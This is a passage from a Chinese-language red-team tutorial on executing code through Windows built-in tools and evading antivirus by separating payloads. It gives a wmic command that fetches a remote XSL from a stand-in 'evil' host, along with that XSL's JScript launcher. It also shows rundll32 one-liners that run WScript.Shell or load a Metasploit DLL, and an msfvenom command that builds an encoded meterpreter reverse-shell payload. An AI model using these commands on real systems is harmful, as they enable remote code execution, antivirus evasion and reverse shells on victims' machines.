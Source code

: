 ### wmic

已经被添加到环境变量

poc
```bash
wmic os get /FORMAT:"http://example.com/evil.xsl"
```
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	]]> </ms:script>
</stylesheet>
```

参考:[利用wmic调用xsl文件的分析与利用](https://3gstudent.github.io/利用wmic调用xsl文件的分析与利用/)
这里还有一个poc https://raw.githubusercontent.com/kmkz/Sources/master/wmic-poc.xsl

### rundll32

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。已经加入环境变量。

```bash
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

也可以去执行msf生成的dll

```bash
rundll32.exe shell32.dll,Control_RunDLL c:\Users\Y4er\Desktop\1.dll
```

---

在这我们先简单介绍这几种，还有`compiler.exe` `odbcconf` `psexec` `ftp.exe`等等。在这里给出参考连接

micro8前辈 https://micro8.gitbook.io/micro8/contents-1#71-80-ke

## payload分离免杀

在这里也只介绍两种分离免杀的姿势

### shellcode loader

借助第三方加载器，将shellcode加载到内存中来执行。

https://github.com/clinicallyinane/shellcode_launcher

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```

